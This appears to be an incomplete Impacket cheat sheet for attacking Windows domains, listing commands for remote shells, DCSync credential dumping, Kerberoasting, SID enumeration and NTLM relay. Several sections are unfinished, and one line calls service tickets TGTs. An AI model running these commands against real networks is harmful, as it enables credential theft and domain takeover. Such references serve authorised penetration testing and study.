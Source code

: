 Impacket is a suite of tools that is massively useful when compromising Windows hosts.

Lots of Impacket tools support using cached Kerberos tickets for authentication. You can supply these using `-k -no-pass`. This will prevent password prompting and authenticate using your delegated privileges. 

# Impacket-PSExec
```shell
impacket-psexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via PsExec (if user has local administrator rights). Requires transferring a binary to the target machine.
```

# Impacket-WMIExec
```shell
impacket-wmiexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via Windows Management Instrumentation. 
```
WMIExec is marginally more stealthy than PSExec but it has WMI as an obvious prerequisite. 

# Impacket-SMBExec
```shell
impacket-smbexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via SMB named pipes without transferring a binary.
```
# Impacket-SecretsDump
```shell
impacket-secretsdump -outputfile <hashes outfile> -just-dc <domain>/<user>@<DC_IP> # Perform DCSync attack against a domain controller with Domain Admin credentials or other user creds with DCSync rights. 
```

# Impacket-SMBServer
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

# Impacket-GetUserSPNs
```shell
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> # List SPN accounts
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request # Request all TGTs. 
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <SPN> -outputfile out-tgt # Request one TGT and save
```
The `out-tgt` can be cracked with hashcat mode 13100. 

# Impacket-RaiseChild
TODO: Write this

# Impacket-Ticketer
TODO: Write this

# Impacket-LookupSID
```shell
impacket-lookupsids -dc-ip <DC_IP> <domain>/<user> # Enumerate usernames using RPC RID/SID cycling to elicit username responses
```

# Impacket-MSSQLClient
TODO: Write this

# Impacket-NTLMRelayX
```shell
impacket-ntlmrelayx -t smb://TARGET_IP --no-wcf-server --smb2support --exec-method smbexec # Relay NetNTLMv2 hashes to a computer to MITM an auth attempt. This could grant code execution as that user.
```
